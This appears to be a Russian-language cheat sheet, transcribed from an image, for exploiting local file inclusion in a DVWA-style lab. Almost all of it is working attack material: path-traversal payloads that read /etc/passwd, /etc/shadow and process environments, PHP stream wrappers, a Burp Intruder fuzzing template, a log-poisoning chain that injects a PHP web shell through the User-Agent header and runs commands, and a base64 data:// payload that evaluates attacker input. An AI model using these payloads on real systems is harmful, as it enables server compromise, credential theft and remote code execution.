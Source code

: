 ```text
../../../../etc/passwd
../../../../etc/shadow
../../../../proc/self/environ
../../../../var/log/apache2/access.log
../../../../var/log/nginx/access.log
../../../../etc/hosts
php://filter/convert.base64-encode/resource=index.php
php://input
```

### 📌 Burp Intruder Positions

```http
GET /vulnerabilities/fi/?page=§FUZZ§ HTTP/1.1
Host: localhost:8081
...
```

---

## 🔧 Примеры log poison'инга и выполнения кода

### 🔥 1. Заносим PHP-код в access.log

Отправляем GET-запрос с PHP-кодом в User-Agent:

```http
GET / HTTP/1.1
Host: target
User-Agent: <?php system($_GET['cmd']); ?>
```

### 🧨 2. Инклюдим лог через LFI:

```http
GET /vulnerabilities/fi/?page=/var/log/apache2/access.log&cmd=whoami
```

### 📌 Возможные пути логов:

```text
/var/log/apache2/access.log
/var/log/nginx/access.log
/var/log/httpd/access_log
```

---

### 🛠️ Бонус: Инъекция через PHP wrapper (data://)

```php
?page=data://text/plain;base64,PD9waHAgZXZhbCgkX0dFVFsnY21kJ10pOz8+
```
